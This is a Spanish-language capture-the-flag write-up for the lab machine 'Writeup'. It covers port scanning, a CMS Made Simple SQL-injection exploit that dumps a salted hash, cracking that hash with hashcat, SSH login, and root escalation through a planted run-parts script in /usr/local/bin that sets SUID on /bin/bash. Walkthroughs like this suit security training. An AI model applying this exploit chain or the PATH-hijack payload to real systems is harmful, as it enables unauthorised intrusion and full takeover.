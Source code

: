 - Tags: #web_enumeration #linux #pathhijacking #process_enumeration #cracking_hash_salt

![portada.png](/assets/images/WriteUp/portada.png)

# RECONOCIMIENTO
----------

- Verificación de `SO`

```bash
ping -c 1 10.10.10.138
```

- Escaneo de puertos abiertos dentro de la maquina

```bash
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.138 -oG allPorts
```

- Información mas detallada sobre los servicios que corren por detrás de los puertos abiertos

```bash
nmap -p80,22 -sCV 10.10.10.138 -oN targeted
```

- Script de reconocimiento básico sobre los directorios abiertos

```bash
nmap -p80 --script=http-enum 10.10.10.138 -oN webScan
```

- Información básica sobre la pagina web

```bash
whatweb http://writeup.htb/writeup/
```

---------
# EXPLOTACIÓN
-----------

- **Nos damos cuenta de que es un CMS Made Simple 2019**

![Pasted image 20240829225020.png](/assets/images/WriteUp/Pastedimage20240829225020.png)

- **Ejecutamos el exploit y lo que sacamos de el es lo siguiente:**

```bash
python2.7 46635.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

----------
# CRACKEO DE PASSWORDS
---------

**Como vemos encontramos dos hashes, uno es un hash `md5` normal y otro pone `salt` , por lo que sabemos que la password se ha hasheado con un `salt`, por lo que para descifrar dicho `hash` haremos lo siguiente:**

>Fichero hash.txt
```bash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

**Hemos puesto el hash al principio separado por `:` el salt**

>Comando de hashcat:


```bash
hashcat -m 20 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
```

- Resultado:

```bash
File: cracked.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

-------------
# SSH
-------

```bash
❯ ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 29 13:25:30 2024 from 10.10.16.4
jkr@writeup:~$
```

**USER**

```bash
jkr@writeup:~$ cat user.txt 
a7e8af276747a411dc39b0206d00e219
jkr@writeup:~$
```

-----------
# ESCALADA DE PRIVILEGIOS
----------

- **Al ejecutar el comando `id` vemos lo siguiente:**

```bash
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

- **Como vemos hay un grupo `staff` que se sale de lo normal, por lo que vamos a ver que es lo que hace este grupo en especifico.**

>`STAFF`
- `Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.`

**Por lo que al ser del grupo `staff` podemos escribir en `usr/local/bin` & `usr/local/sbin`**

>Ambas rutas suelen estar en la variable de entorno $PATH del usuario root, lo que significa
>lo que significa que podríamos reemplazar un programa que root probablemente ejecute fuera de esos directorios con un archivo malicioso que contenga una carga útil que nos permita escalar nuestros privilegios que contenga una carga útil que nos permita escalar nuestros privilegios.

- **Para ver los procesos que esta ejecutando el usuario `root` en el sistema hacemos lo siguiente**

`Ejecutamos el script pspy`

```bash
jkr@writeup:/tmp/$ ./pspy32
```

----------
# PATH HIJACKING
----------

**Al ejecutar la herramienta vemos lo siguiente interesante:**

```bash
<...SNIP...>
2019/06/09 08:45:43 CMD: UID=0 PID=8528 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8529 | sshd: [accepted]
2019/06/09 08:45:43 CMD: UID=0 PID=8530 | sshd: jkr [priv]
2019/06/09 08:45:43 CMD: UID=0 PID=8531 | sh -c /usr/bin/env -i
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --
lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/09 08:45:43 CMD: UID=0 PID=8532 | run-parts --lsbsysinit /etc/update-
motd.d
2019/06/09 08:45:43 CMD: UID=0 PID=8533 | /bin/sh /etc/update-motd.d/10-uname
<...SNIP...>
```

Como vemos se esta haciendo una llamada a la función `run-parts`, en el directorio `/bin` cada vez que un cliente nuevo se conecta por ssh. Por lo que podemos hacer es crear un script llamado `run-parts` que haga lo siguiente:

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

**Esto lo que hará es que como el sistema empezara buscando por el principio del `PATH` hasta encontrar el binario `run-parts`, nosotros ponemos nuestro binario malicioso al principio del `PATH` que tenemos permisos de escritura y esto en vez de hacer las funciones de `run-parts` nos proporcionara una `/bin/bash suid`**

- De ultimas ejecutar un `bash -p` y nos dará una shell `root`.
